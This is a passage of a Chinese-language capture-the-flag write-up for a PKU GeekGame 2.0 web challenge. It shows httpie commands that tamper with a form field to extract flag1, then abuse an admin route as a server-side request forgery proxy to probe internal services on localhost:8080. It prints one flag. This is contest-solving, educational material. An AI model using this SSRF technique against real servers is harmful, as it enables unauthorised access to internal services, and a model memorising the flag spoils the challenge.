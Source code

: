 ```shell
    </p>
    <p>
      <label for="value" class="sr-only">Value</label>
      <input type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value" value="{&quot;type&quot;:&quot;PKU&quot;,&quot;value&quot;:&quot;Welcome to PKU GeekGame 2.0!&quot;}">
...
```

把表单的 `type` 字段改为 `PKU_GeekGame` ，做个 POST 请求，即可拿到 flag1.

```sh
$ http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/query/' type="PKU_GeekGame"
...
      <input type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value" value="{&quot;type&quot;:&quot;PKU_GeekGame&quot;,&quot;value&quot;:&quot;flag1{8a97cd0b-adec-4e63-bd46-3e6c60ea9d78} 恭喜你发现flag1，还有其他flag等待你发现哦&quot;}">
...
```

去看看 `/admin/source_bak/`  这个接口下载下来的源代码。

不难发现 `/admin/{index}/` 这个路由会给 `http://localhost:8079/{index}` 发请求，请求的 body 是 `queryBean` 的 type。响应会被放到 `queryBean` 的 value 里。

那么我们怎么向 `http://localhost:8080` 发送请求呢？

经过尝试，得到一个方案（`%3A` 是冒号的 URL 转义）：

```sh
$ http 'https://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080'  
...
      <input type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value" value="Endpoints:
/bonus
/source_bak
">
...
```

我们发现 8080 端口上运行着 `/bonus` 和 `/source_bak` 两个路由，可是我们怎么访问它们呢。

```sh
http 'https://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080/bonus'
http 'https://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080/bonus/'
```

这两条命令都会得到 404.

假如我们把斜杠转义一下呢？

```sh
$ http 'https://prob08-8dfql2e4.geekgame.pku.edu.cn/admin/localhost%3A8080%2Fbonus'
...
<!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 – Bad Request</h1></body></html><!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 – Bad Request</h1></body></html>
```
